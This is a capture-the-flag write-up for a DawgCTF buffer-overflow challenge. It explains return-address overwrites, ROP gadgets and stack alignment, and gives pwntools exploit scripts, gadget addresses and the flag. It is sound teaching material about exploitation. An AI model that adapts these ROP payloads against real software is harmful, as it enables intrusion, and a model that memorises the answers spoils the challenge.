



## Background
### Stack Buffer Overflow
A buffer overflow occurs when excessive data is written into a space with limited capacity. When this happens, the extra data leaks out of the variable's bounds and overwrites other values on the stack. If random values overflow the buffer, then the program crashes. However, by crafting a calculated payload, we can control the execution flow through this overflow. 

Typically, the return address is targeted when exploiting such vulnerabilities. What exactly is a return address, and what purpose does it serve? When a function completes its execution, the program needs to know where to resume operation—that's where the return address comes in. This value stored on the stack tells the processor where to continue execution after the function finishes. 

If we can overwrite the return address during the buffer overflow, we can control the program's execution flow.

### ROP Gadgets
This challenge requires a heavy reliance on ROP Gadgets to obtain the flag. Hence, before moving to the solution, let's understand what they mean. 
ROP Gadgets are small sequences of machine instructions already present in a binary and end with the `ret` instruction. These gadgets can be used to manipulate values in registers. For example, the following gadget pops the value on the top of the stack into the `rdi` register and returns.
```asm
pop rdi
ret
```

### x64 Stack Alignment
While solving this challenge, I wasted a lot of time due to stack alignment issues. Hence, let's understand why it's essential. 
x86_64 architecture requires that the stack be 16-byte aligned at all times. That is, the value of the register `rsp` must be divisible by 16. If the stack is not aligned and a function is called, it will most likely result in a crash. 

## Solution
Now that we have covered the background information, let's dive into solving this challenge.

### Level 0
The binary asks three simple questions about the x86_64 Architecture, which are trivial to answer.



### Level 1
Now, the actual fun begins. The Level 1 asks us to jump to the address `0x401401`. We can test if the program is vulnerable to buffer overflow using two methods. The long and tedious one would be decompiling the binary using Ghidra, analyzing the source code, and checking if it is vulnerable. A simpler approach would be to send a large input value and check if the program crashes. Let's do this.

A large input value can be generated using 
```py
print("A"*1000)
```
Entering this value crashes the program


Now that we have confirmed the existence of a vulnerability, we need to identify the position of the payload that's overwriting the return address. We can do this by sending an input with a pattern.
`msf-pattern_create -l 1000`

Then fire up GDB `gdb ./chall` and enter `r` to run the program. For the level 1 input, paste the pattern generated above and identify the `rsp` value when the program crashes.
 

Then `msf-pattern_offset -q 0x4132664131664130` can be used to identify the offset where the return address is overwritten. The result indicates the offset as 152. 

This level asks us to jump to the address `0x401401`. We can do this by sending a payload starting with 152 bytes of arbitrary data and then this address. When the function is completed, the execution flow is resumed at the address of our choice.
Well, not so fast. If we do this, we break the stack alignment and our payload causes a crash (Because 152 % 16 != 0). We must add an additional byte to our payload to keep the stack aligned.
Hence, we can use a simple `ret` gadget to maintain the stack alignment. We can identify the address of this gadget using the `ROPgadget` tool.
`ROPgadget --binary ./chall --opcode c3`

Since we are dealing with binary data, we can no longer copy and paste input. So, the rest of the implementation will be done using Python.
```py
from pwn import *

conn = process("./chall")

# Level 0 
conn.recvuntil(b"> ")
conn.sendline(b"2")
conn.recvuntil(b"> ")
conn.sendline(b"1")
conn.recvuntil(b"> ")
conn.sendline(b"4")
print(conn.recv().decode())

# Level 1
l1_arbitrary_data = b"A" * 152
ret_gadget = p64(0x40101a)
l1_ret_addr = p64(0x401401)

l1_payload = l1_arbitrary_data + ret_gadget + l1_ret_addr
conn.sendline(l1_payload)
print(conn.recvuntil(b"Continue:").decode())
```

### Level 2
The next level challenges us to jump to the address `0x401314` with the argument `0xDEADBEEF`. The process used to solve this level is similar to the previous level. By crashing the program, the offset for the return address turns out to be `40`. 

This is just one part of the problem. The other part is to pass `0xDEADBEEF` as an argument to this function. In the x86_64 architecture, the first four arguments are passed in the registers `rdi`, `rsi`, `rdx`, and `rcx`. Additional arguments are placed on the stack from right to left. 
Hence, we can manipulate the `rdi` value by placing `0xDEADBEEF` on the stack and jumping to the following gadget
```asm
pop rdi
ret
```
This gadget's address can be identified using `ROPgadget --binary ./chall --opcode 5fc3`.

So, our level 2 payload will look as follows
```py
l2_arbitrary_data = b"A" * 40
ret_gadget = p64(0x40101a)
pop_rdi_gadget = p64(0x4017d6)
deadbeef = p64(0xdeadbeef)
l2_ret_addr = p64(0x401314)
l2_payload = l2_arbitrary_data + ret_gadget + pop_rdi_gadget + deadbeef + l2_ret_addr
conn.sendline(l2_payload)
print(conn.recv().decode())

conn.interactive()
```

### Level 3
Level 3 has a bit more steps and challenges us to pass three arguments (`0xDEADBEEF`, `0xDEAFFACE`, and `0xFEEDCAFE`) and figure out the function's address. The challenge binary has defined these levels in different functions, namely, win1, win2, and win3. Since the address of win3 is not given, we can use GDB to identify the address: `disass win3`. This gives us the Win3 function's address `0x4011e6`. 

Now, the process used to solve this challenge is exactly the same as the previous level. However, since 3 arguments are involved, we have to utilise 3 gadgets for manipulating `rdi`, `rsi`, and `rdx` registers. 

```py
# Level 3
l3_arbitrary_data = b"A" * 56
win3_addr = p64(0x4011e6)
pop_rdi_ret = p64(0x4017d6)
pop_rsi_ret = p64(0x4017d8)
pop_rdx_ret = p64(0x4017da)

payload = l3_arbitrary_data + p64(0x40101a)+  pop_rdi_ret + p64(0xDEADBEEF) + pop_rsi_ret + p64(0xDEAFFACE) + pop_rdx_ret + p64(0xFEEDCAFE) + win3_addr
conn.sendline(payload)
print(conn.recv().decode())

conn.interactive()
```


Flag: `DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`
